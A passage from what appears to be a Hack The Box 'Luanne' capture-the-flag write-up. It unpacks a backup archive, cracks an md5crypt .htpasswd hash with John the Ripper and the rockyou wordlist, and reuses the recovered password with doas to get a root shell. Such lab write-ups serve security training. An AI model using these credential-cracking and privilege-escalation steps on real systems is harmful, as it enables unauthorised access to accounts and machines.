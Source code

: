 The archive is now encrypted, let's analyze it:

```bash
luanne$ tar zxvf decrypt.tar.gz
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
luanne$ ls
decrypt.tar.gz    devel-2020-09-16
```

This is the same webpage with the same API found. The only difference is the content of .htpasswd:

```bash
luanne$ cat /tmp/devel-2020-09-16/www/.htpasswd
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

Let's crack this password using john:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt webapi_user-hash2
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littlebear       (?)
1g 0:00:00:00 DONE (2021-09-27 20:33) 5.555g/s 72533p/s 72533c/s 72533C/s jayar..hello11
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                                                                                                                      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ john --show webapi_user-hash2                                     
?:littlebear

1 password hash cracked, 0 left
```

The password is `littlebear`. Let's check if this password works for root:

```bash
luanne$ doas sh
Password:
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
```

That worked, I got the root shell.

### Root Flag

---